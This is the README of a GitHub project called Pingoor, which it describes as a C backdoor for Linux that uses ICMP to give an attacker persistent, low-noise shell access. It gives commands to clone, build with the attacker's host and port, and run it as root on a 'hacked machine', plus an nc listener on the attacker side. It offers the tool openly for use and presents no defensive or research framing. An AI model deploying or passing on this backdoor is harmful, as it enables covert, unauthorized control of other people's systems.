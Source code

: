 <h1 align="center">「🚪」About Pingoor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## How to Use

```
# Hacked machine
$ git clone https://github.com/MrEmpy/Pingoor.git
$ cd Pingoor
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```

```
# Attacker machine
nc -lnvp <YOURPORT>
```

## Buy me a coffee?

<img src="https://pixgg.com/img/logo-darkmode.046d3b61.svg" height="30" widght="30">

[PixGG](https://pixgg.com/MrEmpy)

<img src="https://play-lh.googleusercontent.com/aMb_Qiolzkq8OxtQZ3Af2j8Zsp-ZZcNetR9O4xSjxH94gMA5c5gpRVbpg-3f_0L7vlo" height="50" widght="50">

[Buy me a coffe](https://www.buymeacoffee.com/mrempy)
